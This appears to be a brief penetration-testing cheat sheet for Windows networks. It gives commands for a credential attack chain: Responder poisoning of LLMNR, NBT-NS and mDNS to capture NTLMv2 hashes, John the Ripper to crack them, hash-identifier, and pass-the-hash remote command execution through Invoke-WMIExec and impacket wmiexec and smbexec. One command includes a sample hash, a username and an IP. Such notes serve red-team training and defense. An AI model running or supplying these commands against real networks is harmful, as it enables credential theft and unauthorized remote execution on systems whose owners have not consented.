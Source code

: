 **1. Responder**

Github: https://github.com/SpiderLabs/Responder
Attack and exploit insecure name resolution protocols in the LAN:
- LLMNR (Link-Local Multicast Name Resolution)
- NBT-NS (NetBIOS Name Service)
- mDNS (Multicast DNS)
```
python2 Responder.py -I eth0
```
=> Collect the hash user/password

**2. John**

Check and crack the hashed password
```
john <hash> --wordlist=/.../rock.. --format=netntlmv2
```
=> Crack the hashed password collected from Responder

**3. Check hash format**
```
hash-identifier <hash>
```

**4. Wmiexec**
Pass-to-hash, using hash to authen and execute command or access cmd
```
Invoke-WMIExec -Targt <IP> -Domain <domain> -Username <user> -Hash <hash> -Comand 'cmd /c"echo hello_world"'
```

```
impacket-wmiexec -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 daniel-win10/admin@192.168.12.157
```

```
Impacket-smbexec -hashes '<hash>' '<domain>/<user>@<IP>'
```
